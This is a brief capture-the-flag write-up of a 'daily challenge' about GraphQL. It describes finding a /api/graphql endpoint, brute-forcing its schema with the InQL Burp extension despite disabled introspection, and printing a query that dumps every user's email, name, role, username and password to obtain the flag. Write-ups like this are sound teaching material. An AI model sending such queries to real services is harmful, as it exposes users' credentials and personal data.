

Daily challenge.
Hint: *GraphQL*

After registering an account, in my Burp's proxy I noticed single `POST` request to `/api/graphql`.
The Introspection was disabled.
I used *InQL* Burps extension to bruteforce schema. I found query, which allows to dump all users data:
```
{
    "query": "query GeneratedOperation {\n  users {\nemail\n  full_name\n  id\n  password\n  role\n  username\n  }\n}",
    "variables": {}
  }
```
After sending it in the body of the `POST` request to `/api/graphql` I dumped it as seen below, including a flag.

